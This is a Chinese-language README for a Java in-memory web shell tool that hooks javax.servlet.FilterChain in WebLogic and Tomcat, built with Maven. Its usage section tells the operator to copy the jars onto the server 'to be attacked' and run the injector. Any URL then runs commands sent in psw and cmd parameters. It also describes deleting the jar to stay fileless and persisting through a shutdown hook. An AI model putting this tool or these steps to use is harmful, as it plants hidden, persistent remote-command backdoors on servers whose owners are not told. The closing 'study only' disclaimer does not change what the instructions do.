

# 说明
大部分的代码和思路沿用`rebeyond`。`rebeyond`采用的是javassist修改字节码，本项目采用asm修改字节码。github地址：https://github.com/rebeyond/memShell.
本memshell适用于weblogic及tomcat。

# jdk要求
* Jdk 1.5-1.8
* openJDK

# 兼容版本
* weblogic 10.3.6
* weblogic 12.2.1.2
* weblogic 12.2.1.3
* weblogic 12.1.3.0
* Tomcat 8.5.61
>其他容器及其版本暂未测试

# 测试平台
* macos 10.0+
* centos 7.1
* windows 10
>其他操作系统暂未测试

# 更新
## 2021/06/19
* 修改hook点为`javax/servlet/FilterChain`，使其同时兼容tomcat.
* weblogic注入内存马，现在访问任意url，带上密码和命令即可

# 使用说明
1. 克隆本项目。
2. `cd inject`->`mvn clean package`
3. `cd memshell_asm`->`mvn clean package`
4. 将生成jar包统一放入待攻击的服务器中，运行`java -jar inject.jar [your_password]`，即可注入。
5. 访问任意url，带上参数`psw=your_password&cmd=your_cmd`,即可执行命令。
# 测试案例
运行`java -jar inject-1.0.jar x1001`

在服务器端可以看到以下，说明注入成功，并删除当前jar包，达到无shell状态：

访问任意url，带上参数`psw=your_password&cmd=your_cmd`

当应用关闭时。攻击jar包自动生成到java虚拟机目录下。

下次启动，自动注入达到持久化的效果。

> 经测试，通过`kill -9`或者`强制结束进程`杀死容器进程，并不会触发`addShutdownHook`,也就不会持久化。
>网上查询以下几种杀死进程的情况:
>* 所有的线程已经执行完毕（√）
>* 调用System.exit()（√）
>* 用户输入Ctrl+C（√）
>* 遇到问题异常退出（√）
>* kill -9 杀掉进程（×）

# 声明
本项目仅供学习使用，勿做它用

